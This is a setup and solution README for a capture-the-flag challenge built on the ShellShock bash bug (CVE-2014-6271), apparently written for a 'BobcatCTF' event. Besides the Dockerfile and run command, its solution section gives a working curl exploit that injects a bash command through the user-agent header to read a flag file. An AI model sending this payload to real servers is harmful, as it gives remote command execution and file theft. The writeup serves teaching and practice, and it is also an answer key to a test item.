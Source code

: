 # So Shocked

## Abstract
So Shocked makes use of ShellShock or CVE-2014-6271. There is a bug in the bash which should be exploited. 

## Prompt
I would be shocked if you could use the shell to get this flag.

## Setup
- Using a premade docker container, we can make a slight modification to add our flag.
```
FROM vulnerables/cve-2014-6271

RUN echo "BobcatCTF{This is a flag}" > /etc/security/flag.txt
```
- The contestant should pull the image and run it like:
```
docker run --rm -it -p 8080:80 so-shocked
```

## Solving the challenge
- The contestant will eventually get the idea that this is ShellShock and should then research how it works.
- Once they realize they need to use curl commands to access the contents of the container, they will come up with a solution similar to:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /*/*/flag*'" http://localhost:8080/cgi-bin/vulnerable
```

## References
- https://youtu.be/-Zy6ILYh4zM
- https://hub.docker.com/r/vulnerables/cve-2014-6271
- https://nvd.nist.gov/vuln/detail/cve-2014-6271

